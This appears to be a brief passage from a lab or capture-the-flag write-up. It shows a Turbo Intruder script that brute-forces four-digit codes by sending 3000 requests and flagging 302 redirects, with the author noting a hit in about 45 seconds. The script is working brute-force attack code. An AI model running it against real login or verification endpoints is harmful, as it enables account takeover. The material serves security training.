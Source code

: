 
Code used in Turbo Intruder. Only digits to 3000 will be used, but it could've been set to 9999
```py
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=3,
                           requestsPerConnection=4,
                           pipeline=False
                           )
    for i in range(3000):
        engine.queue(target.req, '{:d}'.format(i).zfill(4))
        

@MatchStatus(302)
def handleResponse(req, interesting):
    if interesting:
        table.add(req)

```

There was a hit in ca 45 seconds.

![picture 78](/assets/images/3c4d9a2fbc206864cf866d282545fc0862c4a4a9897ee1d180d9daf00ee2326f.png)  

